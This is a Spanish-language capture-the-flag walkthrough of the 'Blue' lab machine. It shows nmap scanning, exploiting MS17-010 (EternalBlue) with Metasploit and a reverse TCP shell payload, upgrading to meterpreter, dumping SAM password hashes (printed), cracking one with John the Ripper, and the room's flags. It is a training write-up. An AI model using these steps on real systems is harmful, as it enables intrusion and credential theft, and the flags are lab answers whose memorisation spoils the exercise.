# Blue

Esta máquina nos *guía* con las preguntas que nos hacen. Ha sido fácil de completar, quitando algunos errores que tenía la máquina(había que reiniciar y empezar de 0).
Para esta documentación, me voy a limitar a traducir y desarrollar las preguntas que nos hacen con una captura y una oración explicativa.

- Escanea la máquina.
Como no nos especifican que daros quieren que saquemos, haga un escaneo básico de los 1000 puertos más habituales.


> nmap {ip_host}

Este escaneo nos ha dado 4 puertos que podríamos mirar, y el resto con servicios desconocidos.

- ¿Cuántos puertos abiertos hay por debajo del 1000?
Podemos usar el comando anterior, pero para asegurarnos vamos a utilizar un rango de puertos.


> nmap -p 1-1000 {ip_host}

Nos aseguramos, y la respuesta es 3.

- ¿A qué es vulnerable esta máquina?
Para ver esto, vamos a utilizar un script de nmap que busca vulnerabilidades en los servicios. Uso el mismo rango de antes porque entiendo que las preguntas están enlazadas.


> nmap --script vuln -p 1-1000 {ip_host}

El escaneo nos chiva que existe una vulnerabilidad en el servicio SMBv1 llamada **ms17-010**

- Inicia Metasploit


> sudo msfconsole 👍

- Busca la vulnerabilidad. ¿Cuál es la ruta completa del código?
Buscamos la vulnerabilidad anterior en la base de datos de Metasploit


> search ms17-010
> exploit/windows/smb/ms17_010_eternalblue

Esto nos dará varias entradas, pero el título de la *Room* nos dice cual es la que nos interesa, en este caso es la primera(la 0 en idioma informático).

- Muestra las opciones y configura la que tiene un valor obligatorio.
Usamos el modulo 0 y mostramos sus opciones, en este caso la única obligatoria es RHOST.



Establecemos el valor de RHOST, y cambio el de LHOST, ya que estaba pillando otra IP.



Antes de iniciar el exploit, los creadores nos recomiendan establecer el siguiente payload.


> set payload windows/x64/shell/reverse_tcp

Lo establecemos e iniciamos el exploit con *run*.



Ya estaríamos dentro del sistema de Windows, pero esta terminal no nos gusta, vamos a mejorarala.



Paramos la sesión con CTRL + Z.

- Investigue en línea cómo convertir un shell a meterpreter shell en metasploit. ¿Cuál es el nombre del módulo de publicación que usaremos?

Internet = ChatGPT



- Selecciona este módulo y muestra las opciones obligatorias de configurar.



La única opción obligatoria es *SESSION*, la sesión que paramos antes.

- Establece la opción necesaria, necesitaras listar las sesiones.



Listamos las sesiones con sessions -l y, aunque no hace falta, establezco el LHOST por si aca.

- Inicia el exploit.
Lo iniciamos y lo dejamos cargar, se lleva su tiempo, pero si pone session 2 opened, ya puedes darle a *enter*.



Yo esperé un rato más, creyendo que iba a parar/pasar algo, pero no, hay que darle al enter.



- Una vez que se complete la conversión de la shell, selecciónala y úsala.

    Estás 2 preguntas las uno en la imágen de abajo.

- Lista los procesos usando el comando *ps*.



*Ahora se viene una parte que no entendí muy bien*

- Encuentra un proceso al final de la lista que esté siendo ejecutado por NT AUTHORITY\SYSTEM
De toda la lista de antes, elegí uno al azar, no sé si tuve suerte, si todos sirven...



Y, usando ese proceso, podemos sacar los hashes de los usuarios de la máquina. ¿Cómo? Si

Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d::

Le pasamos un john the reaper al hash de Jon y sacamos su contraseña.



- Encuentra las flags

Esta parte es muy simple, sobre todo teniendo en cuenta los permisos que tenemos ahora, y las pistas que nos dan.

- Flag1? Esta flag se puede encontrar en la raíz del sistema.


> flag{access_the_machine}

- Flag2? Esta flag se encuentra donde Windows guarda las contraseñas de los usuarios.


> flag{sam_database_elevated_access}

- Flag3? Esta flag está entre los archivos de Jon.


> flag{admin_documents_can_be_valuable}

## USER? No

No sé si al tener root, podemos iniciar sesión con un usuario.



## ROOT? Si

